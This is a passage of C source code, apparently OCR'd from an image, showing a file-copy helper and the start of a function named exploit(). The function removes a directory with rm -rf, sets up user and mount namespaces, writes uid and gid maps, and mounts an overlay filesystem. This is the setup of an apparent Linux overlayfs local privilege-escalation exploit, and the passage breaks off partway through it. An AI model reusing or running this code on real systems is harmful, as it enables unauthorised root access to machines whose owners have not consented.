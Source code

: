 ```c
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);
```